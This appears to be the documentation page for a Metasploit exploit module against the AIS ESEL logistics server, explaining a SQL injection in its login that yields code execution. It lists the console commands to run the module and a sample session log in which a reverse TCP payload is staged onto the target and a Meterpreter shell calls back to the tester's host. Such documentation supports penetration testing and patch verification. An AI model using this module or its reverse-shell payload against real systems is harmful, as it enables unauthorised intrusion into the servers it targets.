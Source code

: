## Description

    This module will execute an arbitrary payload on an "ESEL" server used by the
    AIS logistic software. The server typically listens on port 5099 without TLS.
    There could also be server listening on 5100 with TLS but the port 5099 is
    usually always open.
    The login process is vulnerable to an SQL Injection. Usually a MSSQL Server
    with the sa user is in place.

    This module was verified on version 67 but it should also run on lower versions.
    An fixed version was created by AIS in September 2017. However most systems
    have not been updated.`

    In regard to the payload, unless there is a closed port in the web server,
    you dont want to use any bind payload. You want a "reverse" payload,
    probably to your port 80 or to any other outbound port allowed on the firewall.

    Currently, one delivery method is supported

    This method takes advantage of the Command Stager subsystem. This allows using
    various techniques, such as using a TFTP server, to send the executable. By default
    the Command Stager uses 'wcsript.exe' to generate the executable on the target.

    NOTE: This module will leave a payload executable on the target system when the
    attack is finished.

## Vulnerable Application

  The application is not publicily available. It was tested on Esel version 67 but should also work an versions below.

## Verification Steps

  1. Start `msfconsole`
  2. `use exploit/windows/misc/ais_esel_server_rce`
  3. `set RHOSTS <IP>`
  4. `check`
  5. **Verify** "Server is vulnerable"
  6. `run`
  7. **Verify** Session opened

## Scenarios

    msf5 > use exploit/windows/misc/ais_esel_server_rce
    msf5 exploit(windows/misc/ais_esel_server_rce) > set rhosts 10.66.75.212
    rhosts => 10.66.75.212
          msf5 exploit(windows/misc/ais_esel_server_rce) > check
          [+] 10.66.75.212:5099 - The target is vulnerable.
    msf5 exploit(windows/misc/ais_esel_server_rce) > run

    [*] Started reverse TCP handler on 10.66.75.208:4444
    [+] 10.66.75.212:5099 - Correct response received => Data send successfully
    [+] 10.66.75.212:5099 - Correct response received => Data send successfully
    [*] 10.66.75.212:5099 - Command Stager progress -   1.47% done (1499/102292 bytes)
    [+] 10.66.75.212:5099 - Correct response received => Data send successfully
    [*] 10.66.75.212:5099 - Command Stager progress -   2.93% done (2998/102292 bytes)
    [+] 10.66.75.212:5099 - Correct response received => Data send successfully
          ...
    [*] 10.66.75.212:5099 - Command Stager progress -  99.55% done (101827/102292 bytes)
    [+] 10.66.75.212:5099 - Correct response received => Data send successfully
    [*] Sending stage (179779 bytes) to 10.66.75.212
    [*] 10.66.75.212:5099 - Command Stager progress - 100.00% done (102292/102292 bytes)
    [!] 10.66.75.212:5099 - The payload is left on the client in the %TEMP% Folder of the corresponding user.
    [*] 10.66.75.212:5099 - Stager should now be executed. Waiting for 20 seconds..
    [*] Meterpreter session 1 opened (10.66.75.208:4444 -> 10.66.75.212:57107) at 2019-03-27 11:04:29 +0100

    meterpreter > getuid
    Server username: NT Service\MSSQL$AIS

